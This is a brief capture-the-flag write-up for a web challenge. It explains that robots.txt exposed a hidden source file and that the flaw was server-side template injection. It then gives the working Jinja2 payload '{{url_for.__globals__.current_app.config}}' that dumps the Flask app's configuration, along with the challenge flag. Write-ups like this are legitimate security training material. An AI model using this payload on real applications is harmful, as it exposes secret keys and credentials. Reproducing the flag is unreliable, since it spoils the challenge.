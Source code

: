 ### 0x00 Challenge:

**Description:**

>Do you notice anything strange on this website?
>
>URL: http://168.119.247.237:5002/

### 0x01 Write-up:

This challenge was an SSTI. If you visit robots.txt you can check a hidden "/.code" file that leaks source code of the web app.

![](https://i.imgur.com/5vYLeHC.png)

Having knowlegde about the blacklist strings, you need to get the flag.

The final payload to get it was: 
```
/secret/{{url_for.__globals__.current_app.config}}
```

![](https://i.imgur.com/PXxjFOV.png)

<br> `Flag: DEKRA{SSTI_0Wn3d????}`
